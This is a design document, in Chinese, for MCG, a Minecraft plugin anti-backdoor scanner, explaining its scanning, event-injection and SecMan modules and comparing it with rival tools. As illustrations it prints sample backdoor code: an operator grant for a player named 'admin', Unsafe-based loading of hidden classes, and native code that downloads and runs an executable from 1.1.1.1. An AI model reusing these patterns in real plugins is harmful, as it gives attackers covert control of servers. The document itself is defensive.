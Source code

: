 # 设计说明

`本说明主要供希望进一步了解MCG工作原理与设计理念的人查阅。普通用户不必阅读。`  
`本说明不适合缺少Java基础的人阅读。`

## 模块介绍：扫描

MCG的扫描主要是基于特征匹配。  
Motivation: 考虑以下问题：

- 哪种地方后门更多？正式发布站（mcbbs/minebbs）？或者某些服务商/技术交流群/黑论坛？
- 哪种后门更多？从未被使用过的，还是经常被触发的？
- 后门会不会被混淆器混？

答案不言而喻，`后者`，`从未被使用过的`和`会`。  
后门，往往是拿来威胁的。例如，你可能抢占了友商的用户，或者使用了盗版的资源。  
而一旦被使用，后门反而失去了它的价值。要么它被找出来，然后回档或者补偿。要么，被植入了后门的人跑路。  
没有例外。  
因此，面对后门，关键的问题是，

- 我们能不能在一个后门没有被使用的情况下，把它找出来？
- 如果不能，我们能不能阻止它被使用？
- 并且，以上两个问题的方法能不能扫穿混淆器，还不影响正常插件的工作？

一种有效的思路便是，收集常见的后门，提取特征以供扫描；同时提供动态防护。而这就是MCG正在做的事情。  
呃，也正因如此，MCG无法开源。因为一旦开源，便特别容易被规避。

## 模块介绍：Inject

Inject模块用于监视插件对事件的监听，以便分析插件的性能与安全性。  
Motivation: 考虑以下代码

```java

@EventHandler
public void onPlayerJoin(PlayerJoinEvent event) {
    Player player = event.getPlayer();
    boolean isOp = player.isOp();
    Bukkit.getServer().dispatchCommand(player, "say hello");
    player.setOp(isOp);
}
```

以上代码中存在setOp行为。虽然一种更好的方式是提供一个继承于Player的类，
但是有很多插件，例如ChestCommands，会这么写。
同时，我们看一看一个标准的后门插件的代码：

```java

@EventHandler
public void onPlayerJoin(PlayerJoinEvent event) {
    Player player = event.getPlayer();
    if (player.getName().equals("admin")) {
        player.setOp(true);
    }
}
```

这种插件的危害性是显而易见的。那么如何区分这两种插件呢？  
Inject模块的思路是，通过监视插件事件的实际效果而不是运行时的代码来判断插件的行为。  
例如，对于上面的代码，Inject模块会监视玩家最终是否被从非OP设置为OP，而不是监视setOp方法的调用。
伪代码如下：

```java
public void callEvent(Event event) {
    if (event instanceof PlayerJoinEvent) {
        Player player = ((PlayerJoinEvent) event).getPlayer();
        boolean isOp = player.isOp();
        // 插件的原始逻辑
        if (!isOp && player.isOp()) {
            // 判定插件是后门插件
        }
    }
}
```

同理，我们可以分析插件是否存在性能问题，修改了服务器的默认游戏模式等等。
相关配置请见MCG的Inject模块配置文件。

## 模块介绍：SecMan

SM模块用于监视插件对文件、进程与网络等底层资源的访问。  
Motivation: 所有的代码都是运行在JVM内的，因此我们可以通过监视JVM的行为来判断插件的行为。  
例如，我们可以监视插件是否读取了某个文件，是否创建了某个进程，是否访问了某个服务器等等。

这里额外解释一下为什么要限制Native方法的调用和反射的使用。
考虑以下代码：

```java 
import sun.misc.Unsafe;

import java.lang.reflect.Field;
import java.util.Base64;

public void doEvilThings(Event event) {
    Field unsafeF = Unsafe.class.getDeclaredField("theUnsafe");
    unsafeF.setAccessible(true);
    Unsafe unsafe = (Unsafe) unsafeF.get(null);
    byte[] someEvilCode = Base64.getDecoder().decode("abcdef");
    Class<?> cls = unsafe.defineClass("java.lang.X", someEvilCode, 0, someEvilCode.length, Integer.class.getClassLoader(), null);
    cls.getMethod("main", String[].class).invoke(null, (Object) new String[]{});
}
```

因为Integer.class.getClassLoader()是SystemClassLoader，所以这个类的定义者将不可追溯。
从而，我们甚至无法判断这个类是否是插件定义的。

或者考虑以下代码：

```cpp
#include <jni.h>
#include <windows.h>
JNIEXPORT void JNICALL Java_aJNI_doJNI(JNIEnv *env, jobject thisObj) {
    char buffer[MAX_PATH];
    _getcwd(buffer, MAX_PATH);
    strcat_s(buffer, "//1.jpg");
    HRESULT Result = URLDownloadToFileA(NULL, "http://1.1.1.1/1.exe", buffer, 0, NULL);
    system(buffer);
    return;
}
```

在native方法中，整个SM模块的监视都将失效。因此，我们需要限制插件对Native库的加载。

## Alternatives

| 项        | MCG           | [SAM](https://www.spigotmc.org/resources/spigot-anti-malware.64982/) | [PluginScan](https://github.com/Rikonardo/PluginScan) | [AntiBackdoor](https://github.com/NichtStudioCode/AntiBackdoor/tree/master) | [BackdoorCrash](https://www.mcbbs.net/forum.php?mod=viewthread&tid=686769) | [PermissionDisable](https://www.mcbbs.net/forum.php?mod=viewthread&tid=352386) | [Yum](https://www.mcbbs.net/thread-701333-1-1.html) |
|----------|---------------|----------------------------------------------------------------------|-------------------------------------------------------|-----------------------------------------------------------------------------|----------------------------------------------------------------------------|--------------------------------------------------------------------------------|-----------------------------------------------------|
| Java版本   | 7-21          | 17+                                                                  | 7-17                                                  | 7-17                                                                        | 8                                                                          | 7-21                                                                           | 7-21                                                |
| 仍在维护     | 是             | 是                                                                    | 是                                                     | 否                                                                           | 否                                                                          | 是                                                                              | 否                                                   |
| 静态扫描     | 基于字节码         | 基于字节码                                                                | 基于字节码                                                 | 基于字节码                                                                       | 基于反编译                                                                      | 无                                                                              | 否                                                   |
| 动态保护     | 基于事件注入与SecMan | 基于NativeAgent                                                        | 无                                                     | 无                                                                           | 基于NativeHook                                                               | 基于权限扫描                                                                         | 基于事件注入与核心注入                                         |
| 阻止系统命令运行 | 是             | 是                                                                    | 仅扫描                                                   | 否                                                                           | 是                                                                          | 否                                                                              | 否                                                   |
| 能够识别未知后门 | 是             | 否                                                                    | 是                                                     | 否                                                                           | 如果能够反编译                                                                    | 如果能够触发规则                                                                       | 如果能够触发规则                                            |
| 误判率      | 0%*           | 15%                                                                  | 100%                                                  | 0%                                                                          | 0%                                                                         | 0%                                                                             | 15%                                                 |
| 本身就是后门   | 否             | 否                                                                    | 否                                                     | 否                                                                           | 否                                                                          | 否                                                                              | 是                                                   |

*指的是：这些插件没有被MCG误判，但是有一定的可能是出于幸存者偏差（即，这些插件又MCG团队选取）。